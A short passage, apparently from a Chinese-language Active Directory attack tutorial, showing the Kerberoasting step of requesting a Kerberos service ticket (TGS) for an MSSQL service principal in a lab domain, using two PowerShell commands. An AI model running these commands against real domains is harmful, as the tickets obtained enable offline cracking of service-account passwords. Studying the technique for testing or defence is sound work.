 [![](assets/1701606719-1f368746dd86d80e74501e67c7af2110.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108162600-72c1f7fa-7e10-1.png)

2、请求 TGS  
单一票据：

```bash
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/win08-server.hacke.testlab"
```
